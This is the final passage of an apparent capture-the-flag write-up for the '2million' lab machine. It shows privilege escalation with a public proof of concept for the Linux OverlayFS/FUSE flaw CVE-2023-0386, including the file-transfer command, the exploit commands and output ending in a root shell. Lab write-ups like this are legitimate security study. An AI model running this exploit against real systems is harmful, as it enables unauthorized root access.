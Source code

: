 
Which hints us that in order to get the root we should look into CVE for the web host. After researching the OverlayFS / FUSE kernel CVE for linux I stumbled upon CVE-2023-0386 [github POC by sxlmnwb](https://github.com/sxlmnwb/CVE-2023-0386) In short the issue with this CVE is the overlay file system and how files are being moved between them. There are probably better details on the CVE on other blogs :>

After downloading the POC I send it over using scp

`scp CVE-2023-0386-master.zip admin@2million.htb:/tmp/`


After that following the instructions I make two terminal session and in one run:


```

admin@2million:/tmp/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0

```


This terminal session hangs and we have to move to the other one to run the exploit and get root:



```

admin@2million:/tmp/CVE-2023-0386-master$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Oct 27 16:28 .
drwxrwxr-x 6 root   root     4096 Oct 27 16:28 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-master# 

```


Thanks for reading!
If you got any questions, tips for me or any other inquiry shoot me an email!
